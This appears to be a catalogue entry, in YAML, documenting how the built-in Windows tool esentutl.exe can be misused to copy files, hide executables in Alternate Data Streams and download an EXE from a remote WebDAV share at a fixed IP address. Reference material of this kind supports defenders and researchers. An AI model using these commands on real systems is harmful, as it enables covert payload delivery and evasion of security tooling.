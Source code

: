 ```yaml
---
Name: Esentutl.exe
Description: Copy, Download, Write ADS, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: 'Copies the source VBS file to the destination VBS file.'
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: 'Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.'
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: 'Copies the source Alternate Data Stream (ADS) to the destination EXE.'
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: 'Copies the source EXE to the destination Alternate Data Stream (ADS) of the destination file.'
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o
    Description: 'Copies the source EXE to the destination EXE file.'
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: 'Copies the source EXE to the destination EXE file'
Full Path:
  - c:\windows\system32\esentutl.exe
  - c:\windows\sysWOW64\esentutl.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to egre55 - @egre55
---
```

